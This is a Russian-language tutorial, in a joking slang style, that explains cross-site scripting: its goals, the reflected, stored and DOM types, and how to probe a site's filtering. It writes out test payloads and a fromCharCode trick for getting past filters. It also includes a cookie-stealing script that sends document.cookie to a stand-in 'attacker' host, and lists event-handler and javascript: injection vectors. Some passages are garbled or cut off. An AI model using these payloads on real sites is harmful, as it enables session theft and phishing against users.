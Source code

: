 # Что такое XSS?

XSS - (Cross-site scripting) Это это атака нацеленная на внедрение кода, позволяющая злоумышленнику выполнить вредоносный JavaScript в браузере другого пользователя. Злоумышленник не атакует свою жертву напрямую. Вместо этого он использует уязвимость веб-сайта который посещает жертва и внедряет вредоносный JavaScript код. В браузере жертвы вредоносный JavaScript отображается как легитимная часть веб-сайта, а сам веб-сайт выступает в качестве непосредственного соучастника атакующего.

---

# В чем же цель XSS?

- Украсть cookie.

- Фишинговые атаки(пацанчик хацкер может вставить поддельную форму для входа на страницу, которую вы посещаете, используя мандражирование DOM. 
 
 - Установив action атрибуты формы на свой собственный серваки, потом обмануть пользователя для получения конфиденциальной информации).

- Изменить настройки(типа заменить бэкграунд сайта, всунуть допустим на задний фон джой-казино скрин).

- Размещать различную рекламы на сайте, в всплывающих окнах.

- Кейлогер (хацкер может внедрить типа прослушки действий, выполняющих на клавиатуре пользователем, используя addEventListener, а потом отправить все эти нажатия клавиш  пользователем на свой серверок, записав конфиденциальную информацию пацанчика, например, это может быть пароли и номера кредитных карт. Стремно, согласитесь)

--- 

# Типы XSS:

- Непостоянный (отраженный) XSS
- Постоянный (хранимый) XSS
- XSS DOM-модели

## Непостоянный (отраженный) XSS

  Это самая распространенным на сайтах. В любом поле ввода-(пример 'поиск') введите: <script>alert('xss')</script> , и если у сайта есть уязвимость xss   то ваш js код сработаеть. И если заметите на адресном строке url то он значительно изменился с тех пор как мы еще не вписывали скрипт в поле. Это говорит о том, что не происходит очистка данных в   поле "name", которые передались в урлу, где браузер воспроизвел этот скрипт на стороне клиента. Если же вы перекинете такой урл другому пользователю, то у него же будет такая картина тоже, но если же тот   пользователь уберет скрипт в урле, то такой проблемы у него не будет.

  По такой схеме как раз и работают злоумышленники, находят уязвимость и кидают урл, через всякие мессенджеры и почтовики, с скриптом, который ее воспроизводит у пользователя, которые, в свою  очередь, не подозревают, что
  в конце урла вредоносный скрипт Для обхода фильтрации вторым способом заюзаем ASCII-код. Тут мы слово HI в нашем замечательном алерте alert(HI) переведем как «72 73». С помощью функции String.fromCharCode() можно обойтись
  совсем без кавычек. В конечном итоге будет у нас скрипт выглядеть так <script>alert(String.fromCharCode(72, 73)</script> 

  Именно таким методом можно обходить фильтрацию magic quotes.   Если же вам лень искать их ручками, то можете перейти на статью о том как искать XSS с помощью сканера уязвимостей OWASP ZAP либо BURP SUITE. После того как вы ознакомились с этим всем можно приступить к практике. Следующею статью сделаю с сайтом, где можно будет легально попрактиковаться, не причиняя вред для работы коллег.
  

  РАСПОСТРЯНЯЮТСЯ ПО МЕССЕДЖЕРАМ: ADMIN - можно зарегестрироваться тут: us.bank.com/serach=?<script>alert(33)</script>


## Постоянный (хранимый) XSS

   Этот вид XSS уже считается наиболее разрушительным типом атаки. Этот тип XSS возможен, когда фраеру хацкеру удается закинуть на сервак код(скрипт),  выполняющийся в браузере каждый раз при заходе на запрашиваемую вами страницу. Самым простым примером этой уязвимости являются форумы, на которых разрешено  оставлять комментарии в HTML формате без ограничений. Другими словами, хранимый XSS возникает, когда разработчики осуществляют некорректную фильтрацию при сохранении входных данные в БД на сервере или при записи этих данных в файлы, а затем выводят эти данные в браузер пользователю.

   Понятно теперь, откуда появляются окошки, когда просто посещаешь какой-то сайт и по какой схеме работают злоумышленники, находят уязвимость на сайте, внедряют  скрипт через сайт на сервер, который будет воспроизводиться у каждого пользователя, который посещает сайт. Согласитесь критично видеть на сайте банка какую-то рекламу казино)))


## XSS DOM-модели
   
   Как известно, XSS в DOM появляются на стороне клиента, во время обработки данных внутри самого JavaScript. Данный тип XSS получил такое название, потому, что  чтоб его сделать нам нужен Document Object Model, как вы поняли это вот и сокращение DOM. Через него, можно получать доступ к содержимому HTML и XML-документов, даже изменять  содержимое либо структуру, либо оформление таких документов.

   Как примерчиком XSS в DOM-модели можно взять сценарием, который позволяет пользователю выбрать язык интерфейса на юайке. Язык по умолчанию передается в URL в параметре “default”. 

http://test.site/page.html?default=Ukraine 

   Для того чтоб пощупать этот тип XSS уязвимости в DOM закинем вместо Ukraine запрос:

```
http://test.site/page.html?default=<script>alert(HI)</script>
```

Браузер обрабатывает этот код и выполняет вывод alert(HI).

Допустим как своровать куку у пользователя с помощью кода(скрипта). Нам нужно всего лишь заставить пользователя выполнить в браузере данный скрит:

```
<script>window.location='http://attacker/?cookie='+document.cookie</script>
```    

---

# Причина появление XSS

XSS возникаетьиз за недостаточной фильтрации сайта (когда разработчики осуществляют некорректную фильтрацию при  сохранении входных данные в БД на сервере или при записи этих данных в файлы, а затем выводят эти данные в браузер пользователю.)

Во-первых, XSS возникает при генерации HTML-страницы, когда разработчику нужно поместить туда указанные пользователем данные (ФИО, организация). Если разработчик записал данные в БД, затем тянет ее в HTML-шаблон, то это stored (сохраненный) XSS.

Разработчику могут понадобиться параметры из URL или тела запроса. Такой тип XSS называется reflected.

Причин XSS куча, потому что есть динамические изменения страницы с помощью JS, есть события, которые постоянно происходят на клиентской стороне с JS.

   ---
   
# Проверка фильтрации сайта
 
Просто в любое поле вводим: '';!--"<fuck>=&{()}

Дальше открываем html страничку и ищем слово "fuck"

и смотри последующие сиволы..

Если <> так и остались то это перваый признак уязвимости - значит фильтр имеет дырку.

Если ,"'\ символы остались такими, как были введены - это второй признак уязвимости - возможные дополнительные символы к последующей XSS атаке.

Затем, если открыв HTML, вы не обнаружили <> то скорее всего дырка в фильтре.

Если открыв HTML вы обнаружили, что <> заменены на другие символы, то это облом - фильтр по крайней мере функционирует нормально.

Возможно еще ввести в поле для проверки фильтрации вот так: "><>'"`,/\?@%

Вспомним, как вызывается JavaScript из HTML:

<script>…</script> — всё, что внутри, будет срендерено браузером как JavaScript.

<img onerror="…" src="x">test</a> — можно использовать обработчики событий, то есть атрибут, например, onerror. Браузер попробует подгрузить картинку по источнику x. Если картинка не прогрузится, он выполнит то, что указано в обработчике событий.

<a href="javascript:…">click to trigger javascript</a> — если гиперссылка ведет не на схему HTTP/HTTPS, а начинается со схемы JavaScript, то при нажатии на ссылку всё, что после схемы JavaScript, будет срендерено как JavaScript.

<iframe src="javascript:…"> — то же самое, что и с гиперссылкой, только ничего не надо кликать, сработает при прогрузке.















